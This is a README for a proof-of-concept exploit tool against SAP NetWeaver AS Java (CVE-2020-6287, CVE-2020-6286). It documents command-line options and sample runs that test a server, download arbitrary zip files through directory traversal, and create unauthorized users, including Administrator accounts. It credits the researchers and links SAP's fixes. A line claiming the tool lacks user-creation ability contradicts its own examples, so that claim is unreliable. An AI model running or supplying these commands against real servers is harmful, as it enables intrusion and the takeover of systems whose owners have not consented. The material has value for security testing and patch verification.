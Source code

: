 PoC for CVE-2020-6287, CVE-2020-6286 (SAP RECON vulnerability)

~~Pffff! RECON (Remotely Exploitable Code On NetWeaver)? Guys, really? That was the best codename you came up with? :)~~ 

This scrip allows to check SAP LM Configuration Wizard missing authorization check vulnerability and as a PoC script exploits directory traversal in `queryProtocol` method.

Directory traversal allows to download any `zip` from SAP server.

***This PoC doesn't provide RCE/user creation functionality.<br>This project is created only for educational purposes and cannot be used for law violation or personal gain.
<br>The author of this project is not responsible for any possible harm caused by the materials of this project***

Original finding: 

CVE-2020-6287: [Pablo Artuso](https://twitter.com/lmkalg)<br>
CVE-2020-6286: [Yvan 'iggy' G.](https://twitter.com/_1ggy) 

Solution: [#2934135](https://launchpad.support.sap.com/#/notes/2934135), [#2939665](https://launchpad.support.sap.com/#/notes/2939665)



# How to use


Just point SAP NW AS Java hostnmae/ip.

There is additional options:

1. `-c` - check if SAP server is vulnerable to RECON
2. `-f` - download `zip` file from SAP server
3. `-u` - create user SAP JAVA user with  `Authenticated User` role 
4. `-a` - create user SAP JAVA user with  `Administrator` role


Ex.: Download zip file

```
~python RECON.py -H 172.16.30.8 -f /1111.zip
Check1 - Vulnerable! - http://172.16.30.8:50000/CTCWebService/CTCWebServiceBean
Ok! File zipfile_929.zip was saved
```


Ex.: Create SAP JAVA user

```
~python RECON.py -H 172.16.30.8 -u
Check1 - Vulnerable! - http://172.16.30.8:50000/CTCWebService/CTCWebServiceBean
Going to create new user. sapRpoc5484:Secure!PwD9379
Ok! User were created
```

Ex.: Create SAP JAVA Administrator user

```
~python RECON.py -H 172.16.30.8 -a
Check1 - Vulnerable! [CVE-2020-6287] (RECON) - http://172.16.30.8:50000/CTCWebService/CTCWebServiceBean
Going to create new user sapRpoc5574:Secure!PwD7715 with role 'Administrator'
Ok! Admin user were created
```

## All options


```
~python RECON.py -h
usage: RECON.py [-h] [-H HOST] [-P PORT] [-p PROXY] [-s] [-c] [-f ZIPFILE]
                [-u] [-a] [--timeout TIMEOUT] [-v]

PoC for CVE-2020-6287,  (RECON)
This scrip allows to check SAP LM Configuration Wizard missing authorization check vulnerability and exploits dir traversal in queryProtocol method
Original finding:
- Pablo Artuso. https://twitter.com/lmkalg
- Yvan 'iggy' G https://twitter.com/_1ggy

Thanks:
- Spencer McIntyre https://twitter.com/zeroSteiner

Solution: https://launchpad.support.sap.com/#/notes/2934135, https://launchpad.support.sap.com/#/notes/2939665

optional arguments:
  -h, --help            show this help message and exit
  -H HOST, --host HOST  Java NW host (default: 127.0.0.1)
  -P PORT, --port PORT  Java NW web port (default: tcp/50000)
  -p PROXY, --proxy PROXY
                        Use proxy (ex: 127.0.0.1:8080)
  -s, --ssl             enable SSL
  -c, --check           just detect vulnerability
  -f ZIPFILE, --zipfile ZIPFILE
                        ZIP file to read. CVE-2020-6286
  -u, --user            Create simple JAVA user. CVE-2020-6287
  -a, --admin           Create JAVA user with role "Administrator". CVE-2020-6287
  --timeout TIMEOUT     HTTP connection timeout in second (default: 10)
  -v, --verbose         verbose mode
```

